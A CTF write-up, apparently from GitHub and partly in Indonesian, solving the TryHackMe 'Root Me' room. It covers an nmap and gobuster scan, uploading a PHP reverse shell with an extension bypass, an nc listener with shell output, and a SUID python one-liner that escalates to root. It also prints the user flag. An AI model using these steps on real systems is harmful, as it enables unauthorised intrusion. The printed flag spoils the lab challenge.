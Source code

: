 # THM_RootMe
Write Up TryHackMe Root Me url: https://tryhackme.com/room/rrootme

'''
Note: in my case my machine ip is 10.10.154.156
'''
# Task 2: Reconnaissance

## Step One: Scan The Machine IP
```
sudo nmap -sS -sC -sV MachineIP -v

output:
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-23 02:05 WIB
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 02:05
Scanning 10.10.154.156 [4 ports]
Completed Ping Scan at 02:05, 0.24s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 02:05
Completed Parallel DNS resolution of 1 host. at 02:05, 0.11s elapsed
Initiating SYN Stealth Scan at 02:05
Scanning 10.10.154.156 (10.10.154.156) [1000 ports]
Discovered open port 80/tcp on 10.10.154.156
Discovered open port 22/tcp on 10.10.154.156
Completed SYN Stealth Scan at 02:05, 3.10s elapsed (1000 total ports)
Initiating Service scan at 02:05
Scanning 2 services on 10.10.154.156 (10.10.154.156)
Completed Service scan at 02:06, 7.10s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.154.156.
Initiating NSE at 02:06
Completed NSE at 02:06, 1.05s elapsed
Initiating NSE at 02:06
Completed NSE at 02:06, 0.85s elapsed
Nmap scan report for 10.10.154.156 (10.10.154.156)
Host is up (0.30s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.00 seconds
           Raw packets sent: 1174 (51.632KB) | Rcvd: 1087 (43.488KB)

```

### question 1: how many port open
```
ans: 2
```
### question 2: What version of Apache is running?
```
ans: 2.4.29
```
### question 3: What service is running on port 22?
```
ans: SSH
```


## Step 2: Find directories on the web server using the GoBuster tool.
```
gobuster dir -u http://MachineIP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

output:
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.154.156/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/11/23 02:15:00 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 316] [--> http://10.10.154.156/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.154.156/css/]    
/js                   (Status: 301) [Size: 311] [--> http://10.10.154.156/js/]     
/panel                (Status: 301) [Size: 314] [--> http://10.10.154.156/panel/]  
Progress: 6801 / 220561 (3.08%)                                                   
[!] Keyboard interrupt detected, terminating.
                                                                                   
===============================================================
2021/11/23 02:17:50 Finished
===============================================================
```
### Question 4: What is the hidden directory?
```
ans: /panel/
```

# Task 2: Getting a shell
## Step one: Go To The /panel/ directory
```
Note: Uploads your reverse shell  And use bypass extension.
```
If you don't have revers shell go https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
Then in your terminal type 
```bash
nc -lvnp <PORT>
```
And go to /uploads directory and opened your reverse web shell
if its work
```
connect to [10.9.3.216] from (UNKNOWN) [10.10.154.156] 58032
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 12:32:16 up 29 min,  0 users,  load average: 0.00, 0.00, 0.22
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
### Question 1: user.txt
use command find / -type f -name user.txt 2>/dev/null
user.txt its found
use command cat (PATH)/user.txt to see the flag
```
ans: THM{y0u_g0t_a_sh3ll}
```

# Task 3: Privilege escalation
ah dahlah, di sini BINDO AE:v

## Pertanyaan 1: Search for files with SUID permission, which file is weird?
nah untuk cari SUID permission anu command find / -perm -4000 2>/dev/null
nah di situ ada yang anuh. python nya masuk ke permission 4000 nya
jadi kita isi
```
Jawaban: /usr/bin/python
```
## Pertanyaan ke 2: root.txt
nah ini nih puncak nya
kita kan bukan user root(kalo ga percaya coba anu command whoami), sedangkan kita mencari root.txt. udah pasti file nya di dir /root :v 
trus gimana banh biar bisa ke jadi user root. Nah itu namany privilege Escalation nah di kali ini ini nyanya SUID vuln
di situ kan yang aneh tadi pythonya. kok aneh? karena pythonya bisa menjalankan user root alias sudo. Nah trus gimana cara nya biar kita jadi user root?
kita bergi ke google ketik GTFobinstrus buka webnya ketik python
nah di situ ada deh. cari yang SUID trus di copy. nih buat yang males
```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
lalu kita ketik whoami
selamat anda jadi HEKERRR SEJATI :v. eits root.txt nya belum
ya tinggal nyari dong. Cara nya sama kayak nyai user.txt
find / -type f -name root.txt 2>/dev/null
nah file flagnya root.txt bener kan ada di dir /root :v 
klo udah tinggal anu deh
cat /root/root.txt
```
Jawaban: PIKIR SENDIRI:V
```


Makasih kawand udah mau baca. klo boleh follow dong:D
Sankyuu
Copyright By Babwa Wibu

